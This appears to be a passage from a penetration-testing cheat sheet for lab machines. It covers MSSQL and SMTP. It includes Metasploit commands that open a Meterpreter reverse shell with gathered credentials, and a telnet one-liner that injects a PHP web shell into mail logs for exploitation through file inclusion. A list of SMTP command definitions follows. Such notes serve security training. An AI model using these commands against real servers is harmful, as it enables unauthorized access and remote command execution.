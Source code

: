 #### Gain shell using gathered credentials

```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

#### Log in to a MsSql server:

```
# root@kali:~/dirsearch# cat ../.freetds.conf
[someserver]
host = $ip
port = 1433
tds version = 8.0
user=sa

root@kali:~/dirsearch# sqsh -S someserver -U sa -P PASS -D DB_NAME
```

## SMTP

### Things to remember:

* Used to send mail
* Always do users enumeration
*   Mail is stored (in linux) in /var/log/mail/username. If you have LFI maybe you can connect to mail server and input webshell.

    * `telnet $ip 25 EHLO rowbot MAIL FROM:rowbot@test.com RCPT TO:$usernamehere DATA Subject: shell <?php system($_GET['cmd']); ?> . quit`

    `symfonos:1 box`

Completed machine with the above vulnerability: Symfonos:1

Commands\
[https://serversmtp.com/smtp-commands/](https://serversmtp.com/smtp-commands/)

```
HELO
It’s the first SMTP command: is starts the conversation identifying the sender server and is generally followed by its domain name.

EHLO
An alternative command to start the conversation, underlying that the server is using the Extended SMTP protocol.

MAIL FROM
With this SMTP command the operations begin: the sender states the source email address in the “From” field and actually starts the email transfer.

RCPT TO
It identifies the recipient of the email; if there are more than one, the command is simply repeated address by address.

SIZE
This SMTP command informs the remote server about the estimated size (in terms of bytes) of the attached email. It can also be used to report the maximum size of a message to be accepted by the server.

DATA
With the DATA command the email content begins to be transferred; it’s generally followed by a 354 reply code given by the server, giving the permission to start the actual transmission.

VRFY
The server is asked to verify whether a particular email address or username actually exists.
```